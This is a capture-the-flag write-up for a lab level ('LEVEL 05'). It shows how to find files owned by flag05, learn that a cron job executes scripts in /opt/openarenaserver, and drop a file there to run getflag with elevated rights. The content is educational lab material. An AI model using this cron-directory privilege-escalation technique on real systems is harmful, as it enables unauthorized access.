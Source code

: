 ## LEVEL 05

In the first place, we search for files to use.  
-> `ls -la` or `la`  
As we can see, there are nothing we can use in the directory. So, we go to the root of the machine.  
-> `cd /`  
And search for files owns by user *flag05* and that are named *level05*.  
-> `find -user flag05 2> /dev/null`  
-> `find -name level05 2> /dev/null`

So, we have 2 files:  
* /usr/sbin/openarenaserver
* /var/mail/level05  

If we open */usr/sbin/openarenaserver*, we can see that we have a Shell script that execute all the files in */opt/openarenaserver/* and then removes them. Then, if we open *var/mail/level05*, we can notice that it is a script that executes */usr/sbin/openarenaserver* every 2 minutes using *cron*.  
To exploit this, we create a file in */opt/openarenaserver/* that prints `getflag` in a file in */tmp*.  
-> `cd /opt/openarenaserver`  
-> `echo "getflag > /tmp/flag" > exploit`  
Finally, we collect our flag and move on to the next level.  
-> `cat /tmp/flag`  
-> `su level06`